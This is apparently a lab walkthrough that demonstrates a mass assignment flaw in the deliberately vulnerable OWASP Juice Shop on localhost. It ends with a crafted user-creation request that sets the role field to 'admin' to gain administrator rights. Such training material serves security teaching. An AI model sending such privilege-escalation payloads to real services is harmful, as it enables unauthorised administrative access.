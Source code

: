 # Mass Assignment

Mass assignment occurs when a property of a JSON or request payload is available in an unintended security context.

1. Review the network traffic generated after creating a user in the OWASP juice shop and note the following request:

    ``` json
    POST https://localhost:88/api/Users/ HTTP/1.1
    {
        "email" : "someone@somewhere.com",
        "password" : "BadPass123",
        "passwordRepeat" : "BadPass123",
        "securityQuestion" : {
            "id" : 7,
            "question" : "Name of your favorite pet?",
            "createdAt" : "2024-03-24T13:50:54.019Z",
            "updatedAt" : "2024-03-24T13:50:54.019Z"
            },
        "securityAnswer" : "Bob"
    }
    ```

1. After logging in, submit a GET request to `api\Users` and observe the response:

    ``` json
    {
    "status" : "success",
    "data" : [ {
        "id" : 1,
        "username" : "",
        "email" : "admin@juice-sh.op",
        "role" : "admin",
        "deluxeToken" : "",
        "lastLoginIp" : "",
        "profileImage" : "assets/public/images/uploads/defaultAdmin.png",
        "isActive" : true,
        "createdAt" : "2024-03-24T18:39:35.837Z",
        "updatedAt" : "2024-03-24T18:39:35.837Z",
        "deletedAt" : null
    },
    . . .
    ```

1. Note that the `role` is returned. Attempt to create a new user with the following request:

    ``` json
    POST https://localhost:88/api/Users/ HTTP/1.1
    {
        "email" : "sneakyadmin",
        "password" : "admin",
        "role" : "admin"
    }
    ```